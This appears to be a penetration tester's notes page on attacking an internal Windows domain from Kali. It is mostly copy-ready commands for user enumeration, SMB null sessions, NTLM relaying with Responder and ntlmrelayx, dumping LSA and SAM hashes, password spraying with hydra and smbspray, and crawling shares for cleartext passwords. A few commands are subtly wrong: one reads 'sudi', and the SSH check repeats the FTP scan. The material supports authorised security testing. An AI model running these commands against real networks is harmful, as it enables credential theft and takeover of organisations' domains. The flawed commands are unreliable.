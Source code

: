 # Internal (Kali)

Starting with some [NMap Scans/Scripts](../tools/nmap.md) we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

***

## User Enumeration

Without already being given user credentials, we can try to find some using [Kerbrute](https://github.com/ropnop/kerbrute/releases), and [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py). These methods can be loud but still effective.

* [Kerbrute](https://github.com/ropnop/kerbrute/releases) - A little louder

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
```

```
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt -v -o Outfile.txt
```

* [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) - Can be stealthy but not always.

```
GetNPUsers.py DOMAIN/ -usersfile USERLIST.txt -dc-ip DC-IP -no-pass
```

***

## SMB Null Sessions

I like to use [SMBCrunch](https://github.com/Raikia/SMBCrunch)(SMBHunt.pl), and [Netexec](https://github.com/Pennyw0rth/NetExec)

* [SMBCrunch](https://github.com/Raikia/SMBCrunch)

```
git clone https://github.com/Raikia/SMBCrunch.git && cd SMBCrunch
```

```
sudo ./smbhunt.pl -i ../445.txt
```

* [Netexec](https://github.com/Pennyw0rth/NetExec)

```
sudi netexec smb <target-ip> -u "" -p "" --shares
```

* View Null sessions with

```
sudo smbclient -L //target/share -U ""
```

***

## SMB Relays

If SMB Signing is not Required for multiple machines, we can attempt to abuse SMB Relays with [Responder](https://github.com/lgandx/Responder), [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (From Impacket), and [Proxychains](https://github.com/haad/proxychains).

1. Disable SMB and HTTP in Responder.conf (/etc/responder/Responder.conf):

```bash
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
```

```bash
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf
```

2. Change the proxychains config (/etc/proxychains4.conf)

```bash
sudo sed -i 's/9050/1080/g' /etc/proxychains4.conf
```

4. Use [NetExec](https://github.com/Pennyw0rth/NetExec) to generate a list of hosts that has SMB signing not required (--gen-relay-list)

```bash
sudo netexec smb up-hosts.txt --gen-relay-list relay.txt
```

5. Run [Responder](https://github.com/lgandx/Responder)

```
sudo python3 /usr/share/responder/Responder.py -I eth0 -PDv --lm
```

6. Run [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) in a new window/tab while Responder is running.

```
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf relay.txt -socks -smb2support -i -of relyed-hashes.txt
```

When we have capture relays, we can try and crack the captured hashed, but while we crack them we can abuse the relays using [NetExec](https://github.com/Pennyw0rth/NetExec).

* View Shares hosted on target machine

```bash
sudo proxychains4 netexec smb ip -u user -p '' --shares
```

* Dump LSA

```
sudo proxychains4 netexec smb ip -u user -p '' --lsa
```

Dump SAM hashes

```
sudo proxychains4 netexec smb ip -u user -p '' --sam
```

***

## General Enumeration

Finding Domain Controller IP. These aren't guaranteed but can be used in most cases.

* Using NSLookup

```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
```

* Using DIG

```
dig _ldap._tcp.dc._msdcs.<domain> SRV
```

* Checking /etc/resolv.conf

```
cat /etc/resolv.conf
```

### Web Services

* Look at all http/https pages for login pages, information disclosure, default login credentials, robots.txt, and other directories.
* [Ffuf](https://github.com/ffuf/ffuf)&#x20;
  * Will need a fuzzling wordlist list, such as [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)

```
sudo ffuf -recursion -mc all -ac -c -e https://domain/FUZZ -w wordlist.txt
```

```
sudo ffuf -recursion -mc all -ac -c -e .htm,.shtml,.php,.html,.js,.txt,.zip,.bak,.asp,.aspx,.xml -w wordlist.txt -u https://domain/FUZZ -fc 400,401,403,404,406,500,502 > domain.txt
```

### FTP

Checking if FTP is open, and if anonymous login is enabled.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

### SSH

Checking  if SSH is open and if it takes password authentication.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

***

## Password Spraying

### SMB

* [SMBSpray](https://github.com/absolomb/smbspray)

```
git clone https://github.com/absolomb/smbspray.git && cd smbspray
```

```
python3 smbspray.py -u users.txt -p passwords.txt -ip DC-IP
```

### SSH

* Using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```
hydra -L users.txt -P passwords.txt ssh://IP
```

***

## Post Exploitation

Once we have obtained credentials we can find even more info. I like to find more info from: [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump), Bloodhound ([Bloodhound.py](http://bloodhound.py/)), and [Manspider](https://github.com/blacklanternsecurity/MANSPIDER).

### Bloodhound / [Bloodhound-Python](http://bloodhound.py/)

```bash
sudo bloodhound-python -u USER -p PASSWORD -ns DNS Server -d DOMAIN -c All
```

Once we have the .json files, we can ingest them into bloodhound to look for domain admins, kerberoastable accounts, and more.

### [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump)

```bash
sudo ldapdomaindump -u DOMAIN\\USER -p PASSWORD IP
```

### [ManSpider](https://github.com/blacklanternsecurity/MANSPIDER)

Crawl network shares to find any helpful info, such as files with cleartext passwords, password databases, and more.

* Install

```
pipx install git+https://github.com/blacklanternsecurity/MANSPIDER
```

* Search hostname/IP for files with "passw" in the name:

```
manspider TARGET -f passw -d DOMAIN -u USER -p 'PASSWORD'
```

* Search for documents containing passwords

```
manspider TAGRGET -c passw -d DOMAIN -u USER -p 'PASSWORD'
```

***


